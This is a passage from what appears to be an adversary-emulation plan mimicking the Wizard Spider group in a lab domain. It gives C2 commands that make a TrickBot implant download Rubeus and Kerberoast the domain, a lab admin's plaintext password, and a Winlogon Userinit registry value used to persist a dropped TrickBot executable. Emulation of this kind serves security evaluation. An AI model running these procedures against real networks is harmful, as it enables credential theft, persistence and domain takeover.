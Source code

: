 :microphone: `Voice Track:`

In this step Wizard Spider performs Kerberoasting using a public tool, Rubeus.

Through Kerberoasting, Wizard Spider obtains encrypted credentials for the domain admin, vfleming.

Wizard Spider cracks the credentials offline for use in the next step.

*Note: offline cracking isn't performed due to time constraints; its also not in scope for the evaluation, so we skip the behavior.*

---

### ☣️ Procedures

```bash
./evalsC2client.py --set-task TrickBot-Implant "get-file rubeus.exe"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "rubeus.exe kerberoast /domain:oz.local"
```
| TTP | Notes |
| -------- | ------- |
| T1105 | WizardSpider ingresses tools via HTTP |
| T1558.003  | WizardSpider kerberoasts the domain |
| T1110.002  | WizardSpider performs offline cracking of hashes |

## Step 7 - Lateral Movement to DC

In step 7 Wizard Spider ingresses a new CyberSEAL remote agent called Jelly.

Using Jelly, Wizard Spider downloads a TrickBot variant to the DC using PowerShell's `Invoke-WebRequest` command.

Wizard Spider then uses Jelly to establish registry persistence to execute Trickbot when vflemming logs in.

Lastly, Wizard Spider invokes Jelly to enumerate the domain using the `adfind` utility.

Compromised user info:

User:	`vfleming@oz.local`
System: `10.0.0.4 / wizard`
Password: `q27VYN8xflPcYumbLMit`
File Write (Tribot EXE variant): `%AppData%\uxtheme.exe`
Registry Write:  `HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`
Key: `Userinit`
Value: `Userinit.exe, $env:AppData\uxtheme.exe`


---

### ☣️ Procedures

Ingress Jelly to the domain controller.
